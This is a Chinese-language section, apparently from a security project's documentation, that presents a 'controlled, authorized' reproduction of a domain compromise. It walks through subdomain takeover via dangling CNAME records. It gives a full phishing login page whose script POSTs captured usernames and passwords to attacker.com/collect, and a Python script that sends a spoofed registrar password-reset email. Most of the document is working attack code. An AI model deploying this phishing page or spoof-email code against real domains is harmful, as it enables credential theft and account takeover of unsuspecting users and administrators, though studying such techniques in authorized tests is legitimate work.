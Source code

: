 ## 测试复现
以下是在受控授权环境中模拟域名入侵的步骤：
1. **环境准备**：
   - 使用Namecheap或GoDaddy注册测试域名（如`test-target.com`）。
   - 配置子域名（如`sub.test-target.com`），设置悬空CNAME指向未声明的资源（如AWS S3存储桶）。
2. **子域名劫持**：
   - 使用`Subadub`识别悬空记录：
     ```bash
     subadub -d test-target.com -o subdomains.txt
     ```
   - 声明未拥有的资源（如创建与CNAME匹配的S3存储桶）。
   - 在声明的资源上托管钓鱼页面：
     ```html
     <html>
     <head><title>TestCorp 登录</title></head>
     <body>
         <form id="login-form">
             <input type="text" id="username" placeholder="用户名">
             <input type="password" id="password" placeholder="密码">
             <input type="submit" value="登录">
         </form>
         <script>
             document.getElementById('login-form').addEventListener('submit', function(e) {
                 e.preventDefault();
                 var data = {
                     username: document.getElementById('username').value,
                     password: document.getElementById('password').value
                 };
                 fetch('http://attacker.com/collect', {
                     method: 'POST',
                     body: JSON.stringify(data)
                 });
             });
         </script>
     </body>
     </html>
     ```
3. **电子邮件入侵模拟**：
   - 向测试域名的管理员邮箱发送伪装的注册商密码重置邮件：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("重置您的密码：http://fake-registrar.com/reset")
     msg['Subject'] = '紧急：域名密码重置'
     msg['From'] = 'support@fake-registrar.com'
     msg['To'] = 'admin@test-target.com'
     with smtplib.SMTP('smtp.attacker.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
4. **结果分析**：
   - 验证子域名是否提供钓鱼页面，或邮件是否触发响应。
5. **日志收集**：
   - 收集DNS、注册商、邮件和Web服务器日志，分析入侵痕迹。
